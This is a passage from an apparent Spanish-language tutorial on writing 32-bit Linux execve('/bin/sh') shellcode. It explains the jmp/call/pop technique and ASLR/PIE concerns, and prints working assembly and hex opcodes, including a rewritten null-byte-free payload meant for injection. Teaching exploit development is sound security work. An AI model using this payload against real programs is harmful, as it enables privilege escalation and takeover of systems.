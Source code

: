 Comienza mediante un salto a `call b`, esta instrucción equivale a `push eip ; jmp b`, como ya vimos (`jmp` equivale a un `mov eip, ...`), colocando en el stack el eip de ese instante, que, no por casualidad, apunta a la cadena «/bin/sh» (eip contiene siempre la dirección de la siguiente instrucción a la que se va a ejecutar, la cual calcula sumando al eip de la instrucción acual el tamaño de dicha instrucción). De esta forma al volver al `pop esi` obtenemos en esi la dirección de «/bin/sh». Originalmente también incluía al final un exit(0) para evitar que rompa al salir de /bin/sh, pero no es necesario hoy en día.

Claro que siempre puedes buscar en el binario (o en las librerías que usa) una cadena «/bin/sh» y emplearla, pero es más dependiente del binario, y a no ser que no tenga ASLR (o que el binario no sea PIE, en el caso de que en él se encuentre la cadena) necesitarás un memory leak, cosa que no siempre está disponible. Es necesario tener en cuenta que la posición en la que se encuentra algo en memoria es muy efímera, puede variar en función del compilador, del sistema, por ASLR…, por eso es mejor atar bien los cabos. Aquí desde luego buscaremos la solución más portable posible, sin embargo ahí fuera siempre se puede analizar la situación y aplicar una solución específica, especialmente en un ataque de elevación de privilegios, donde tienes acceso al binario (saber si tiene RELRO, si es PIE, además no tienes que especular qué compilador se ha empleado) y puedes obtener más información del sistema (¿ASLR?).

Prosigamos. Podemos obtener sus opcodes  
`eb1e5e897608c6460700c7460c00000000b80b00000089f38d4e088d560c  
cd80e8ddffffff2f62696e2f7368`  
El problema principal de ese shellcode: presencia de bytes nulos, lo que elimina vectores de inyección como str\*(), \*printf() y \*get\*() y ahora no sé si me dejo alguno en el tintero. Eso nos deja como posibles entradas \*read\*().  
Pero no hay que preocuparse, siempre tiene solución esto. Vamos a reescribirlo evitando los bytes nulos, esto lo haremos empleando siempre el registro del menos tamaño posible, y en lugar de realizar mov’s para hacer 0 un registro haremos `xor reg, reg`, que es equivalente.  

    BITS 32
    global _start
    _start:
        jmp a
        b:
        pop esi
        mov [esi+0x8], esi
        xor eax, eax
        mov [esi+0x7], al
        mov [esi+0xc], eax
        mov al, 0xb
        mov ebx, esi
        lea ecx, [esi+0x8]
        lea edx, [esi+0xc]
        int 0x80
        a:
        call b
    db "/bin/sh"

Sus opcodes son  
`eb185e89760831c088460789460cb00b89f38d4e088d560ccd80e8e3ffff  
ff2f62696e2f7368`  
Ya no hay bytes nulos, y además hemos reducido el tamaño en 6 bytes (de 44 a 38).

